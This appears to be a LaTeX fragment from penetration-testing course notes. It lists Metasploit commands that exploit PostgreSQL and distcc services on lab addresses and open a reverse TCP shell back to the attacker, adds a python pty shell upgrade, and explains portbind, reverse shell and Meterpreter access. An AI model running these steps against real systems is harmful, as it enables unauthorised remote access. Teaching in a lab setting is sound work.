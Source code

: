 \documentclass[twocolumn]{article}
\begin{document}
\begin{enumerate}
    \setlength\itemsep{-0.25em}
    \item \texttt{msf5 > use exploit/linux/postgresql/\char`\\}\\
    \hspace*{2.25pt}\texttt{ > postgresql\char`\_payload}
    \item \texttt{msf5 > show payloads} (This will show the payloads only aplicable to the selected module)
    \item \texttt{msf5 > set payload linux/x86/shell/reverse\char`\_tcp}
    \item \texttt{msf5 > show options}
    \item \texttt{msf5 > set RHOST 192.168.56.101}
    \item \texttt{msf5 > set LHOST 192.168.56.1}
    \item \texttt{msf5 > show targets}
    \item \texttt{msf5 > set TARGET 0}
    \item \texttt{msf5 > run}
\end{enumerate}

\textit{NOTE: after getting a basic shell you can get an interactive shell with} \texttt{python -c \textquotesingle import pty; pty.spawn("/bin/bash")\textquotesingle}\\

\noindent Another example:

\begin{enumerate}
    \setlength\itemsep{-0.25em}
    \item \texttt{msf5 > use exploit/unix/misc/distcc\char`\_exec}
    \item \texttt{msf5 > run}
\end{enumerate}

\section{Post Exploitation}
In general, the payload used determines the type of access we have after exploiting the target. Raughly, there are three types:

\begin{itemize}
    \item Portbind: it opens a port in the target and then we can connect to such port. This is generally prevented by firewalls at the target. Generally, we obtain shell access (a.k.a. command line access) after connecting to the target port.
    \item Reverse shell: it open a port in our attacking system, then the target connects to our system. Generrally we obtain shell access.
    \item Meterpreter: it opens a port in our attacking system, then the target connects to our system. In this case we do not obtain shell access, we obtain a Meterpreter session, which includes additional commands.
\end{itemize}
\end{document}
